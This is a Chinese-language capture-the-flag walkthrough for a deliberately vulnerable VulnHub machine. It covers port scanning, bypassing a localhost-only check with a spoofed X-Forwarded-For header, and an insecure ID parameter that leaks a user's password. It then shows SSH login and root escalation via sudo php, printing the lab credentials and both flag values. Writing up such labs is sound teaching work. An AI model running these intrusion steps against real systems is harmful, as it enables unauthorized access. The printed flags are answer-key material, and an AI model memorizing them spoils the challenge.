


<center>Me-and-my-Girlfiend</center>


[toc]


## Me-and-my-Firlfiend

> [vulnhub](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)


> Description: 

```shell
Description: This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

Difficulty Level: Beginner

Notes: there are 2 flag files

Learning: Web Application | Simple Privilege Escalation
```


### 1. 信息搜集

```shell
# 主机发现
nmap -sP 172.16.168.128/24

# 端口扫描
nmap -sV -sC 172.16.168.140

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:e1:56:58:46:04:33:56:3d:c3:4b:a7:93:ee:23:16 (DSA)
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:FB:8E:84 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> 获取到ip和端口


> 访问web源码

```shell 
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

> x-forwarded-for : (XFF)是用来识别客户端最原始的IP地址和HTTP请求头字段。
>
> 浏览器插件： `X-Forwarded-For Header`

修改xff,获取到代码了



> 注册一个用户，登陆
>
> 存在水平越权。



```shell
id=6 获取到alice用户名和密码
alice/4lic3

# ssh登陆
ssh alice@172.16.168.140

# 查看隐藏文件
ls -al

# 查看flag1
cd .my_secret
cat flag1.txt

Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}

# 笔记
cat my_notes.txt 
Woahhh! I like this company, I hope that here i get a better partner than bob ^_^, hopefully Bob doesn't know my notes
```


### 2. 提权

```shell
# sudo 
sudo -l
Matching Defaults entries for alice on gfriEND:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php

# 可以php执行，不使用root密码
```

> php提权。

```shell
# php回调bash
sudo php -r 'system("/bin/bash");'

# root权限
cd /root
cat flag2.txt 
                                                                                                                                          
  ________        __    ___________.__             ___________.__                ._.                                                      
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |                                                      
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |                                                      
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}

```

